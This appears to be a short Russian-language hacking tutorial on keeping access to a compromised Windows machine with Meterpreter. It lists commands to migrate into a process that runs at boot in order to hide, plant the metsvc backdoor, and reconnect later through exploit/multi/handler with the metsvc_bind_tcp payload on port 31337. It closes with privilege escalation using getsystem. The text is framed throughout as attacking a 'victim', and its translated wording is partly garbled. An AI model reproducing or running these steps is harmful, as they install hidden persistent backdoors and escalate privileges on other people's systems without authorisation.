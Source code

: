 Meterpreter Backdoor требует скрипт с именем metsvc. Это список полезных команд, используемых для взаимодействия с машиной жертвы с черного хода.

Используя бэкдор metsvc, вы можете получить оболочку Meterpreter в любой момент.

1.ps
Мы хотим найти процесс который запускается каждый раз при вкл. компа. И будем использовать его для скрытыя нашего процесса.
Например мы нашли тот самый процесс Например:Perfect.exe - (687)

2.migrate 687
Мы подключаемся к нему (к процессе Perfect.exe PID-687)

3.run metsvc 
Прячем там backdoor. А потом meterpreter покажет нам порт для backdoor-a

______||________________________________________________
А теперь мы выходим с сессии meterpreter-a 
А когда хотим обратно то тогдааааа...

1. use exploit/multi/handler
2. set PAYLOAD windows / metsvc_bind_tcp 
3. set lhost 192.168.x.x - адрес жертвы 
4. set lport 31337 порт который открыл нам metsvc 
5.exploit 



Давайте продолжим с тем же сценарием, когда мы взломали систему Windows Server 2003 и установили измеритель полезной нагрузки.
Meterpreter использует команду getsystem для повышения привилегий. Но сначала мы должны использовать команду «priv», чтобы подготовить взломанную систему к повышению привилегий.
Затем запустите команду getsystem.